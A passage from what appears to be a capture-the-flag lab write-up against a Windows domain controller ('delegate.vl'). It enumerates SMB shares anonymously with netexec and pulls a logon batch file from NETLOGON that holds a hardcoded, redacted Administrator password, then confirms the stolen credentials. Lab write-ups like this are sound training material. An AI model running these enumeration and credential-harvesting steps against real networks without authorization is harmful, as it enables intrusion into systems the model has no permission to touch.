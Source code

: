 ```bash
netexec smb 10.10.74.48 -u "anonymous" -p "" --shares
SMB         10.10.74.48     445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
SMB         10.10.74.48     445    DC1              [+] delegate.vl\anonymous: 
SMB         10.10.74.48     445    DC1              [*] Enumerated shares
SMB         10.10.74.48     445    DC1              Share           Permissions     Remark
SMB         10.10.74.48     445    DC1              -----           -----------     ------
SMB         10.10.74.48     445    DC1              ADMIN$                          Remote Admin
SMB         10.10.74.48     445    DC1              C$                              Default share
SMB         10.10.74.48     445    DC1              IPC$            READ            Remote IPC
SMB         10.10.74.48     445    DC1              NETLOGON        READ            Logon server share 
SMB         10.10.74.48     445    DC1              SYSVOL          READ            Logon server share
```

# Exploitation

Inspecting the NETLOGON’s share shows a batch file.

```bash
smbclient -U delegate.vl\\anonymous -N //10.10.74.48/NETLOGON -c ls
  .                                   D        0  Sat Aug 26 13:45:24 2023
  ..                                  D        0  Sat Aug 26 10:45:45 2023
  users.bat                           A      159  Sat Aug 26 13:54:29 2023

                5242879 blocks of size 4096. 1932050 blocks available
```

Downloaded the file to our VM and discovered a user and a clear-text password.

```
smbclient -U delegate.vl\\anonymous -N //10.10.74.48/NETLOGON -c "get users.bat"
getting file \users.bat of size 159 as users.bat (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)

cat users.bat 
rem @echo off
net use * /delete /y
net use v: \\dc1\development 

if %USERNAME%==A.Briggs net use h: \\fileserver\backups /user:Administrator <REDACTED>
```

NetExec confirms that the credentials are valid.

```bash
netexec smb 10.10.74.48 -u A.Briggs -p '<REDACTED>' --shares
SMB         10.10.74.48     445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
SMB         10.10.74.48     445    DC1              [+] delegate.vl\A.Briggs:<REDACTED> 
SMB         10.10.74.48     445    DC1              [*] Enumerated shares
SMB         10.10.74.48     445    DC1              Share           Permissions     Remark
SMB         10.10.74.48     445    DC1              -----           -----------     ------
SMB         10.10.74.48     445    DC1              ADMIN$                          Remote Admin
SMB         10.10.74.48     445    DC1              C$                              Default share
SMB         10.10.74.48     445    DC1              IPC$            READ            Remote IPC
SMB         10.10.74.48     445    DC1              NETLOGON        READ            Logon server share 
SMB         10.10.74.48     445    DC1              SYSVOL          READ            Logon server share
```
